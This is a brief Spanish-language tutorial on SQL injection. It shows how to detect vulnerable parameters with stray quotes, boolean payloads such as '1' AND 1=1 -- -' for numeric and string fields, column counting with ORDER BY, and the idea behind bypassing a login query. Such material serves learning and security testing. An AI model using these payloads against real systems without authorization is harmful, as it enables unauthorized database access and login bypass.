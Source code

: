 ### Identificación de vulnerabilidades

Estructura estandar de prueba:

```sql
SELECT usuario FROM usuarios WHERE usuario='parameter'
```

#### Comprobar vulnerabilidad

Añadiendo comillas simples o dobles a la consulta:

Parametro: '

```sql
SELECT usuario FROM usuarios WHERE usuario='''
```

Si sale error es que es vulnerable.

#### Tipo del parámetro vulnerable

- INT [ 1 AND 1=1 -- - ]

```sql
SELECT usuario FROM usuarios WHERE usuario=1 AND 1=1 -- -
```

- CHAR [ '1 AND 1=1 -- - ]

```sql
SELECT usuario FROM usuarios WHERE usuario='1' AND 1=1 -- -'
```

- STRING [ "1 AND 1=1 -- - ]

```sql
SELECT usuario FROM usuarios WHERE usuario="1" AND 1=1 -- -"
```

Solo si el parámetro coincide cargará la página.

#### Número de columnas a devolver

```sql
SELECT usuario FROM usuarios WHERE usuario='1' AND 1=1 ORDER BY 500 -- -'
```

Si el número de columnas a devolver es menor que el número que ponemos en el ORDER BY, saldrá un error.

### Bypass de un login

Estructura estandar de prueba de la consulta Login:

```sql
SELECT usuario FROM usuarios WHERE usuario = 'admin' AND password = "admin"
```

Si la consulta está vacía no devuelve nada y no permitirá acceso, en caso contrario sí, **dando igual que haya uno o más registros**.
